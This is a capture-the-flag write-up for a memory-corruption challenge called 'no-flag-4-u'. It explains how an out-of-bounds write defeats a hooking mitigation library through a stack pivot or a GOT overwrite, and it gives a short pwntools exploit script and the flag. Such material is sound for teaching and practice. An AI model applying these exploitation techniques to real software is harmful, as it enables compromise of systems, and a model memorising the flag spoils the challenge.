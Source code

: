 # no-flag-4-u

## Challenge

The binary provided is intentionally very vulnerable.
There are array out-of-bounds accesses, buffer overflows, use-after-frees, and format string vulnerabilities.

No-Flag-4-U is a project that aims to mitigate common vulnerabilities by wrapping certain dangerous functions.
The `libno_flag_4_u.so` library is provided, which mitigates many of the above vulnerabilities by hooking the calls to libc functions.
The binary was combiled from commit
[2b93970](https://github.com/Green-Avocado/No-Flag-4-U/tree/2b93970ca3a0e53cccb89450236be248f0166c48)
using the debug profile and no optional flags.

While there was a simple intended solution, the challenge was intentionally designed to allow for more creative solutions.
I was very pleased to read about the solutions that other competitors found.

### Checksec

```
    Arch:     amd64-64-little
    RELRO:    No RELRO
    Stack:    No canary found
    NX:       NX disabled
    PIE:      No PIE (0x400000)
    RWX:      Has RWX segments
```

### Main Decompilation

```c
ulong main(void) {
    ulong var_90h;
    ulong var_8h;
    
    sym.imp.alarm(0x3c);
    sym.imp.setbuf(_reloc.stdout, 0);
    sym.imp.setbuf(_reloc.stdin, 0);
    do {
        sym.imp.puts("1 : Create page");
        sym.imp.puts("2 : Edit page");
        sym.imp.puts("3 : Print page");
        sym.imp.puts("4 : Delete page");
        sym.imp.puts("5 : Exit");
        var_8h = sym.get_input();
    // switch table (6 cases) at 0x402078
        switch(var_8h) {
        case 1:
            sym.create_page(&var_90h);
            break;
        case 2:
            sym.edit_page(&var_90h);
            break;
        case 3:
            sym.print_page(&var_90h);
            break;
        case 4:
            sym.delete_page(&var_90h);
            break;
        case 5:
            return 0;
        }
    } while( true );
}
```

## Solution

Though we have a stack buffer overflow and no libc canary, we cannot simply overwrite the return address because No-Flag-4-U uses stored base pointers as canaries for some functions, including `gets`.

We cannot abuse the use-after-free because memory is never actually freed with these wrappers.

However, the array-out-of-bounds access means we can overwrite any stack value with a heap address, with contents that we control.
We can use this to overwrite a saved base pointer to a heap chunk.
After a couple returns, we can use this to stack pivot into the heap chunk, causing it to return to an address of our choosing.
Note that we are also somewhat limited to what addresses we can write, as all characters must be valid UTF-8.

The intended solution simply writes a `win` function address onto this heap chunk, which will cause the program to print the flag.

### Alternative Solutions

Many teams found that, instead of replacing the saved RBP to stack pivot, you could write to an address of your choosing, as long as it contained only UTF-8 characters.
This was done by editting at an index where a pointer to the stack existed, such as a saved RBP.
By editting at this index, one could write an almost arbitrary address onto the stack, which could then be editted to write any UTF-8 string to that address.
This was often used to replace a GOT entry with the `win` function address.

I was very happy to see that someone was able to abuse the RWX stack to cause the program to execute shellcode.
This was done by replacing a GOT entry, in the same manner as above, with a `call rax` gadget or similar.
One could then put UTF-8 shellcode onto the stack and execute it using this gadget.

## Exploit

```py
#!/usr/bin/env python3
# -*- coding: utf-8 -*-
# This exploit template was generated via:
# $ pwn template --host localhost --port 1337 chal
from pwn import *

# Set up pwntools for the correct architecture
exe = context.binary = ELF('chal')

# Many built-in settings can be controlled on the command-line and show up
# in "args".  For example, to dump all data sent/received, and disable ASLR
# for all created processes...
# ./exploit.py DEBUG NOASLR
# ./exploit.py GDB HOST=example.com PORT=4141
host = args.HOST or 'localhost'
port = int(args.PORT or 1337)

def start_local(argv=[], *a, **kw):
    '''Execute the target binary locally'''
    if args.GDB:
        return gdb.debug([exe.path] + argv, gdbscript=gdbscript, *a, **kw)
    else:
        return process([exe.path] + argv, *a, **kw)

def start_remote(argv=[], *a, **kw):
    '''Connect to the process on the remote host'''
    io = connect(host, port)
    if args.GDB:
        gdb.attach(io, gdbscript=gdbscript)
    return io

def start(argv=[], *a, **kw):
    '''Start the exploit against the target.'''
    if args.LOCAL:
        return start_local(argv, *a, **kw)
    else:
        return start_remote(argv, *a, **kw)

# Specify your GDB script here for debugging
# GDB will be launched if the exploit is run via e.g.
# ./exploit.py GDB
gdbscript = '''
tbreak main
continue
'''.format(**locals())

#===========================================================
#                    EXPLOIT GOES HERE
#===========================================================
# Arch:     amd64-64-little
# RELRO:    No RELRO
# Stack:    No canary found
# NX:       NX disabled
# PIE:      No PIE (0x400000)
# RWX:      Has RWX segments

io = start()

io.sendlineafter(b"5 : Exit\n", b'1')
io.sendlineafter(b"index: ", b'-2')
io.sendlineafter(b"size: ", b'8')
io.sendlineafter(b"content: ", flat({8:exe.sym['win']}))
io.sendlineafter(b"5 : Exit\n", b'5')

io.interactive()
```

## Flag

```
maple{OwO_flag_for_you?}
```
